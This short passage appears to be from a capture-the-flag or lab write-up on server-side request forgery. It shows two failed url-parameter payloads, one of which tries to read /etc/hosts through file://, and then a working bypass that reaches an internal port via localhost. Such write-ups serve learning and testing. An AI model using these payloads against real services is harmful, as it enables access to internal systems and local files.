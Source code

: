 #### 3.1. SSRF 2

Failed attempts:
```
$target/?url=http://127.0.0.1:1234 (Invalid URL)
$target/?url=file:///etc/hosts (Invalid URL)
```

Solution:
```
$target/?url=http://localhost:1234
```
